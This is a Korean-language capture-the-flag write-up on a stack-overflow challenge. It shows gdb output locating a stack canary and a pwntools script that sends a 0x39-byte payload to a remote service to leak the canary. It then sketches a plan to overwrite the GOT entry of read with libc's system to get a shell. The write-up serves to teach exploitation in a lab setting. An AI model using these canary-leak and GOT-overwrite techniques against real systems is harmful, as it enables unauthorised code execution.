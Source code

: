 코드에서도 존재했듯이 카나리 값이 존재하고 NX비트가 적용되어 스택에서 실행권한이 없는 것을 확인할 수 있다. RELRO는 부분적으로 적용되어있다.

먼저 카나리 값을 추출하는 코드를 짜기 위해서 gdb를 이용해서 카나리 값이 들어간 후의 스택의 상태를 살펴보았다.

```solidity
	 0x4006a7 <main>:     push   rbp
   0x4006a8 <main+1>:   mov    rbp,rsp
	 0x4006ab <main+4>:   sub    rsp,0x40
   0x4006af <main+8>:   mov    rax,QWORD PTR fs:0x28
   0x4006b8 <main+17>:  mov    QWORD PTR [rbp-0x8],rax
=> 0x4006bc <main+21>:  xor    eax,eax
-------------------------------------------------------------------------
RAX: 0xda7a4184a1eefb00 
RCX: 0x7ffff7fa8718 --> 0x7ffff7fa9e20 --> 0x0 
RBP: 0x7fffffffdf60 --> 0x0 
RSP: 0x7fffffffdf20 --> 0x1
---------------------------------------------------------------------------
0x7fffffffdf20: 0x0000000000000001      0x00000000004007dd
0x7fffffffdf30: 0x0000000000000000      0x0000000000400790
0x7fffffffdf40: 0x0000000000000000      0x00000000004005c0
0x7fffffffdf50: 0x00007fffffffe050      0xda7a4184a1eefb00
0x7fffffffdf60: 0x0000000000000000      0x00007ffff7dfd81d
```

rbp-0x8 위치에 카나리값인 rax레지스터에 들어있는 값이 있는 것을 확인할 수 있고 현재 스택의 상태를 알 수 있다.

![스택 상태.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/73a98967-9ca5-48f5-aee9-51e4c0237053/%EC%8A%A4%ED%83%9D_%EC%83%81%ED%83%9C.png)

그러면 코드와 비교해서 BUF[0x30]만큼 할당되어 있고 8바이트만큼 값이 들어간 이후 카나리 값이 들어가 있는 것을 확인할 수 있으므로 페이로드로 총 39바이트만큼 보내면 코드상 그 다음 버퍼값을 출력할 때 카나리 값이 출력되므로 카나리를 알아낼 수 있다.

즉 카나리를 유출하기 위한 코드는 다음과 같다.

```python
from pwn import *

host=""
port=
p=remote(host,port)
payload=b'A'*0x39
p.sendafter("Buf: ",payload)
p.recvuntil(payload)
canary=u64(b'\x00'+p.recvn(7))
#print(canary)
canary=p64(canary)
```

그럼 카나리 값을 구했으니 어떠한 방식으로 쉘을 획득할지 생각해야 한다.

이번 문제에서는 Return to Library 문제와 다르게 system 함수를 코드 내부에서 사용하고 있지 않아 system 함수의 plt를 이용하여 system 함수를 호출하는 방법은 힘들다.

대신 이미 사용중인 puts함수와 read 함수를 이용하여 이 함수 중 read의 got주소에 적혀 있는 라이브러리 상 read의 주소를 라이브러리에 있는 system 함수의 주소로 덮어씌워 read함수 대신 system 함수를 실행시킬 수 있다.

이것이 가능한 이유는 라이브러리에서 각 함수의 오프셋이 정해져있기 때문이다. 
